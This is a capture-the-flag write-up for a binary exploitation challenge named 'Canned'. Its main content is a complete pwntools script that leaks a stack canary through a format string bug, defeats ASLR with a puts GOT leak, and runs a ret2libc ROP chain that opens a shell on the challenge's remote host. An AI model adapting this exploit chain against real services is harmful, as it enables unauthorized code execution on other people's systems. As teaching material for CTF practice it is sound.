


# Canned
**Category**: Pwn

**The task**:



This challenge required us to overcome binary protections such as NX, Stack canaries and ASLR.


# Analysis

We were given a binary(``./canned``) and a remote host(which, runs this binary). 

What are we working with:
* The binary has a format string vulnerabillity
* It also has a buffer overflow
* The binary has ``PIE`` disabled, meaning that the GOT/PLT has a fixed address.


Obstacles:
* The binary has NX protection enabled
* Stack canary protection is also enabled(libc's ``FORTIFY`` stuff) which prevents ``RIP`` takeover via the stack.
* The address of libc is randomized(ASLR) so we cannot know where to jump even if we manage to leak the stack canary and takeover ``RIP``.
* We don't know the version of libc on the target server

# Solution

* To overcome the stack canary and skip the libc's `` ** stack smashing detected **`` error, we can use the format string vulnerabillity and leak the stack cookie.
* To overcome NX: we'll perform a ret2libc attack
* To overcome libc's ASLR: we'll leak the GOT entry of ``puts@plt`` using a ROP gadget.
  * After getting a leaked libc ``puts`` address, we can determine the libc version which the server is running using tools like [_libc-database_](https://libc.rip/)
  * When we get the libc version, we can download a copy of the ``libc.so`` file and analyze its symbols&offsets to calculate the libc base address on the target server
  * After getting the base address, it is fairly easy to calculate the address of ``system``.
* At the end, we'll make another ``ret`` to ``main`` in order to restart the program. 
* Landing again on ``main``, we'll exploit the buffer overflow one more time, but this time with another ROP chain to perform a _ret2libc_ attack with our known values(address of libc's ``system`` + leaked canary) to pop a shell.


```py
from pwn import * 

context.log_level = 'CRITICAL'

# step 0 - define vars
canned = ELF('./canned')
rop    = ROP(canned)

p = remote('35.238.225.156', 1007)
pop_rdi      = rop.find_gadget(['pop rdi', 'ret'])[0]
align_stck   = rop.find_gadget(['ret'])[0]
get_canary   = '%15$p'  # 15th element on the stack is the stack cookie
buffer_size  = 0x20 - 8 # minus 8 due to the stack cookie
main         = p64(canned.symbols['main'])


# step 1 - get canary 
p.recvuntil('Say something please')
p.sendline(get_canary)
p.recvline() # newline
leak = p.recvline()[:-1]
canary = p64(int(leak.decode() , 16))
print('canary leak: ', leak.decode())

p.recvuntil('try something else maybe')

# step 2 - leak libc addr, calculate base & return again to main
rop_payload  = b'A'*buffer_size 
rop_payload += canary
rop_payload += b'B'*8
rop_payload += p64(pop_rdi)
rop_payload += p64(canned.got['puts'])
rop_payload += p64(canned.plt['puts'])
rop_payload += main


p.sendline(rop_payload) # executing step 1 + 2
p.recvuntil('bye\n')
leak = p.recvline()[::-1][1:].hex()
puts_leak = int('0x' + leak, 16)
print('puts leak: ', hex(puts_leak)) # find version using libc database tools

libc = ELF('./libc6_2.27-3ubuntu1.3_amd64.so')
libc_base   = puts_leak - libc.symbols['puts']
libc_system = libc_base + libc.symbols['system']
str_bin_sh  = libc_base + 0x1b3e1a

print(
    'libc base ', hex(libc_base),
    '\nlibc syst ', hex(libc_system),
    '\nlibc binsh', hex(str_bin_sh),
)

# step 3 - back again at main: trigger overflow & jump to system
p.recvuntil('Say something please')
p.sendline('shaq-attack :D')
p.recvuntil('try something else maybe')

system_pwn  = b'A'*buffer_size 
system_pwn += canary
system_pwn += b'B'*8
system_pwn += p64(align_stck) # extra ROP sauce. Adding another ret gadget to keep the stack aligned or else libc will crash 
system_pwn += p64(pop_rdi)
system_pwn += p64(str_bin_sh)
system_pwn += p64(libc_system)

p.sendline(system_pwn) 
p.interactive()
```

aaaand



thanks for the challenge :D 